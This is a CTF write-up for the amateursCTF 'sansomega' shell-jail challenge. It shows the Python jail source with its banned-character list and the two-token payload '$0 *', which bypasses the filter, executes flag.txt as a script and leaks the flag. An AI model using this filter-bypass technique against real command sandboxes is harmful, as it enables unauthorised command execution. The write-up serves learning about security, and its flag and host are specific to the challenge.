

## jail/sansomega

solved by vulnx https://vulnx.github.io/

## challenge description

Somehow I think the pico one had too many unintendeds...

So I left some more in :)

nc chal.amt.rs 2100



### Analysis

```py
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()
```

The program basically allows us arbitrary command execution but blocks the following characters:

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]
```

### Vulnerability

This list is obviously incomplete, we can use `$0` 

> When not used in the script, the `$0` holds the information of which shell you are currently using. So if you print the value of the `$0`, it will show you which shell you are currently logged in.

as well as `*`

```console
> nc chal.amt.rs 2100
$ *
/bin/sh: 1: flag.txt: not found
$
```

this shows that the current working directory contains the flag.txt file.

### Exploit

We can combine `$0` with `*` to execute the flag.txt file as a shell script, this will try to execute the flag contents as a shell command and ultimately give the `<command>: not found` error.

```console
> nc chal.amt.rs 2100
$ $0 *
flag.txt: 1: amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}: not found
```

### Flag

`amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}`